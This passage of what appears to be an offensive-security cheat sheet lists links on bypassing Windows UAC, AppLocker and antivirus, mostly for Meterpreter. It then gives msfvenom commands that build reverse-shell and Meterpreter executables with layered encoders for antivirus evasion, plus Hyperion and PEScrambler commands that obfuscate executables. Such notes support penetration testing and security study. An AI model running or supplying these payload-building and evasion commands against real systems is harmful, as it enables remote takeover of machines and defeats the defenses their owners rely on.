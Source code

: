 * [0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html](https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html)



### Bypass-UAC

* [github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC)




## AppLocker Bypass

* [github.com/api0cradle/UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList)




## AV Bypass

* [hacker.house/lab/windows-defender-bypassing-for-meterpreter/](https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/)
* [codeby.net/threads/meterpreter-snova-v-dele-100-fud-with-metasploit-5.66730/](https://codeby.net/threads/meterpreter-snova-v-dele-100-fud-with-metasploit-5.66730/)
* [github.com/phackt/stager.dll](https://github.com/phackt/stager.dll)
* [hausec.com/2019/02/09/suck-it-windows-defender/]https://hausec.com/2019/02/09/suck-it-windows-defender/)
* [medium.com/securebit/bypassing-av-through-metasploit-loader-32-bit-6d62930151ad](https://medium.com/securebit/bypassing-av-through-metasploit-loader-32-bit-6d62930151ad)
* [medium.com/securebit/bypassing-av-through-metasploit-loader-64-bit-9abe55e3e0c8](https://medium.com/securebit/bypassing-av-through-metasploit-loader-64-bit-9abe55e3e0c8)


### msfvenom

```
root@kali:$ msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -a x86 --platform win -e x86/shikata_ga_nai -i 3 -f exe -o rev.exe
root@kali:$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=1337 -e x86/shikata_ga_nai -i 9 -f raw | msfvenom --platform windows -a x86 -e x86/countdown -i 8 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 11 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 6 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 7 -k -f exe -o met.exe
```



### Veil-Evasion

Hyperion + Pescramble

```
root@kali:$ wine hyperion.exe input.exe output.exe
root@kali:$ wine PEScrambler.exe -i input.exe -o output.exe
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)